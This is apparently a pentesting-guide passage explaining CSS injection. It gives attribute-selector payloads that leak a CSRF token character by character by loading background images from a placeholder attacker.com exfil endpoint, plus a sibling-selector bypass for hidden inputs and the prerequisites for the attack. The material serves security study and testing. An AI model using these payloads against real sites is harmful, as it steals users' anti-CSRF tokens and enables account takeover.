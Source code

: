# CSS Injection

{{#include ../../../banners/hacktricks-training.md}}

## CSS Injection

### Attribute Selector

CSS selectors are crafted to match values of an `input` element's `name` and `value` attributes. If the input element's value attribute starts with a specific character, a predefined external resource is loaded:

```css
input[name="csrf"][value^="a"] {
  background-image: url(https://attacker.com/exfil/a);
}
input[name="csrf"][value^="b"] {
  background-image: url(https://attacker.com/exfil/b);
}
/* ... */
input[name="csrf"][value^="9"] {
  background-image: url(https://attacker.com/exfil/9);
}
```

However, this approach faces a limitation when dealing with hidden input elements (`type="hidden"`) because hidden elements do not load backgrounds.

#### Bypass for Hidden Elements

To circumvent this limitation, you can target a subsequent sibling element using the `~` general sibling combinator. The CSS rule then applies to all siblings following the hidden input element, causing the background image to load:

```css
input[name="csrf"][value^="csrF"] ~ * {
  background-image: url(https://attacker.com/exfil/csrF);
}
```

A practical example of exploiting this technique is detailed in the provided code snippet. You can view it [here](https://gist.github.com/d0nutptr/928301bde1d2aa761d1632628ee8f24e).

#### Prerequisites for CSS Injection

For the CSS Injection technique to be effective, certain conditions must be met:

1. **Payload Length**: The CSS injection vector must support sufficiently long payloads to accommodate the crafted selectors.
2. **CSS Re-evaluation**: You should have the ability to frame the page, which is necessary to trigger the re-evaluation of CSS with newly generated payloads.
3. **External Resources**: The technique assumes the ability to use externally hosted images. This might be restricted by the site's Content Security Policy (CSP).
